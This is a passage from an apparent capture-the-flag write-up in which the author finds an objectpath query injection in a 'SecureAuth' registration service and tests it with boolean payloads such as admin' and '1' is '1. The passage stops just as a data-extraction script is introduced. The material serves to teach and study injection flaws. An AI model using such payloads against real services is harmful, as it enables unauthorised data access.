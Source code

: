 ```
Could not register. Weak password.
```

Aha, the debug message looks suspiciously like a python dictionary. So we
probably have a python service here.
The description says "SecureAuth is back", so we searched for SecureAuth and
ndhquals and we found a couple of writeups of a past ndh challenge, which was a
redis injection vulnerability. Maybe this is something similar? From the
SecureAuth writeups we got the idea to use the `admin` username:

```
~ » register
Registration Form
~~~~~~~~~~~~~~~~~

Username # admin
ERROR : User admin already exists !
~ » register
Registration Form
~~~~~~~~~~~~~~~~~

Username # admin'
objectpath exception : SyntaxError: Unknown operator '(operator)', '''
```

What the hell is objectpath? A quick search revealed a library that can be used
to query nested JSON/dictionary data structures:
http://objectpath.org/reference.html

So we have some kind of injection vulnerability. We played around a little with
the injection:

```
Username # admin'], [
ERROR : User admin'], [ already exists !
```

So the query code probably looks something like this:

```python
query = "$.users[@.username is '" + username + "']"
```

Ah so we can probably do some kind of boolean based injection:

```
Username # admin' and '1' is '2
Username admin' and '1' is '2 : OK !
```

```
Username # admin' and '1' is '1
ERROR : User admin' and '1' is '1 already exists !
```

Very good. Now we can use this to exfiltrate data. I threw together a little
script to perform boolean queries using the injection vulnerability. Note
that if we get back that the user doesn't exist, we need to input a password
and wait for the password check to complete. This takes ages, so in this case
we open a new connection, which is much faster
